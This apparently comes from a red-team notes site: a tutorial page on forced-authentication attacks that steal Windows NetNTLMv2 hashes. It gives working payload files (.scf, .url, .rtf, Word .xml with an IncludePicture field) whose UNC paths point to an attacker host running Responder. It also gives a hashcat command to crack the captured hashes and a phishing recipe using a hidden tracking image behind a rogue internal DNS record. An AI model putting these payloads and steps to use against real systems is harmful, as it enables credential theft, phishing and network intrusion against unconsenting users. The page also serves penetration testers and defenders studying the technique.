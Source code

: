 ```yaml
---
description: 'Credential Access, Stealing hashes'
---
```


# Forced Authentication

## Execution via Hyperlink

Let's create a Word document that has a hyperlink to our attacking server where `responder` will be listening on port 445:

![](../../.gitbook/assets/forced-auth-word.png)

{% file src="../../.gitbook/assets/totes-not-a-scam.docx" caption="Forced SMBv2 Authentication - MS Word File" %}

Let's start `Responder` on our kali box:

{% code title="attacker@local" %}
```csharp
responder -I eth1
```
{% endcode %}

Once the link in the document is clicked, the target system sends an authentication request to the attacking host. Since responder is listening on the other end, victim's `NetNTLMv2` hash is captured:

![](../../.gitbook/assets/forced-auth-hashes.png)

The retrieved hash can then be cracked offline with hashcat:

```csharp
hashcat -m5600 /usr/share/responder/logs/SMBv2-NTLMv2-SSP-10.0.0.2.txt /usr/share/wordlists/rockyou.txt --force
```

Success, the password is cracked:

![](../../.gitbook/assets/forced-auth-cracked.png)

Using the cracked passsword to get a shell on the victim system:

![](../../.gitbook/assets/forced-auth-shell%20%281%29.png)

## Execution via .SCF

Place the below `fa.scf` file on the attacker controlled machine at `10.0.0.7` in a shared folder `tools`

{% code title="\\\\10.0.0.7\\tools\\fa.scf" %}
```csharp
[Shell]
Command=2
IconFile=\\10.0.0.5\tools\nc.ico
[Taskbar]
Command=ToggleDesktop
```
{% endcode %}

{% file src="../../.gitbook/assets/fa.scf" caption="fa.scf" %}

A victim user `low` opens the share `\\10.0.0.7\tools` and the `fa.scf` gets executed automatically, which in turn forces the victim system to attempt to authenticate to the attacking system at 10.0.0.5 where responder is listening:

![victim opens \\10.0.0.7\tools, fa.scf executes and gives away low&apos;s hashes](../../.gitbook/assets/forced-auth-shares.png)

![user&apos;s low hashes were received by the attacker](../../.gitbook/assets/forced-auth-scf.png)

What's interesting with the `.scf` attack is that the file could easily be downloaded through the browser and as soon as the user navigates to the `Downloads` folder, users's hash is stolen:

![](../../.gitbook/assets/forced-auth-downloads.png)

## Execution via .URL

Create a weaponized .url file and upload it to the victim system:

{% code title="c:\\link.url@victim" %}
```csharp
[InternetShortcut]
URL=whatever
WorkingDirectory=whatever
IconFile=\\10.0.0.5\%USERNAME%.icon
IconIndex=1
```
{% endcode %}

Create a listener on the attacking system:

{% code title="attacker@local" %}
```text
responder -I eth1 -v
```
{% endcode %}

Once the victim navigates to the C: where `link.url` file is placed, the OS tries to authenticate to the attacker's malicious SMB listener on `10.0.0.5` where NetNTLMv2 hash is captured:

![](../../.gitbook/assets/forced-authentication-url.gif)

## Execution via .RTF

Weaponizing .rtf file, which will attempt to load an image from the attacking system:

{% code title="file.rtf" %}
```csharp
{\rtf1{\field{\*\fldinst {INCLUDEPICTURE "file://10.0.0.5/test.jpg" \\* MERGEFORMAT\\d}}{\fldrslt}}}
```
{% endcode %}

Starting authentication listener on the attacking system:

{% code title="attacker@local" %}
```text
responder -I eth1 -v
```
{% endcode %}

Executing the file.rtf on the victim system gives away user's hashes:

![](../../.gitbook/assets/rtf-hashes.gif)

## Execution via .XML

MS Word Documents can be saved as .xml:

![](../../.gitbook/assets/screenshot-from-2018-12-09-16-23-39.png)

This can be exploited by including a tag that requests the document stylesheet \(line 3\) from an attacker controlled server. The victim system will share its NetNTLM hashes with the attacker when attempting to authenticate to the attacker's system:

```markup
<?xml version="1.0" encoding="UTF-8" standalone="yes"?>
<?mso-application progid="Word.Document"?>
<?xml-stylesheet type="text/xsl" href="\\10.0.0.5\bad.xsl" ?>
```

Below is the attack illustrated:

![](../../.gitbook/assets/peek-2018-12-09-16-44.gif)

{% file src="../../.gitbook/assets/test-xls-stylesheet.xml" caption="test-xls-stylesheet.xml" %}

## Execution via Field IncludePicture

Create a new Word document and insert a new field `IncludePicture`:

![](../../.gitbook/assets/screenshot-from-2018-12-09-17-01-11.png)

Save the file as .xml. Note that the sneaky image url is present in the XML:

![](../../.gitbook/assets/screenshot-from-2018-12-09-17-02-32.png)

Launching the document gives away victim's hashes immediately:

![](../../.gitbook/assets/peek-2018-12-09-17-04.gif)

{% file src="../../.gitbook/assets/smb-image.xml" caption="smb-image.xml" %}

## Execution via HTTP Image and Internal DNS

If we have a foothold in a network, we can do the following:

* Create a new DNS A record \(any authenticated user can do it\) inside the domain, say `offense.local`, you have a foothold in, and point it to your external server, say `1.1.1.1`
  * Use [PowerMad](https://github.com/Kevin-Robertson/Powermad) to do this with: `Invoke-DNSUpdate -dnsname vpn -dnsdata 1.1.1.1`
* On your controlled server 1.1.1.1, start `Responder` and listen for HTTP connections on port 80
* Create a phishing email, that contains `<img src="http://vpn.offense.local"/>` 
  * Feel free to make the image 1x1 px or hidden
  * Note that `http://vpn.offense.local` resolves to `1.1.1.1` \(where your Responder is listening on port 80\), but only from inside the `offense.local` domain
* Send the phish to target users from the `offense.local` domain
* Phish recipients view the email, which automatically attemps to load the image from `http://vpn.offense.local`, which resolves to `http://1.1.1.1` \(where Responder is litening on port 80\)
* Responder catches NetNLTMv2 hashes for the targeted users with no user interaction required
* Start cracking the hashes
* Hopefully profit

## References

{% embed url="http://www.defensecode.com/whitepapers/Stealing-Windows-Credentials-Using-Google-Chrome.pdf" caption="" %}

{% embed url="https://www.bleepingcomputer.com/news/security/you-can-steal-windows-login-credentials-via-google-chrome-and-scf-files/" caption="" %}

{% embed url="https://pentestlab.blog/2017/12/13/smb-share-scf-file-attacks/" caption="" %}

{% embed url="https://medium.com/@markmotig/a-better-way-to-capture-hashes-with-no-user-interaction-by-markmo-bd1569bfa208" caption="" %}

{% embed url="https://bohops.com/2018/08/04/capturing-netntlm-hashes-with-office-dot-xml-documents/" caption="" %}

{% embed url="https://twitter.com/bohops/status/1062935197107322880?s=12" caption="" %}

{% embed url="https://www.securify.nl/blog/SFY20180501/living-off-the-land\_-stealing-netntlm-hashes.html" caption="" %}

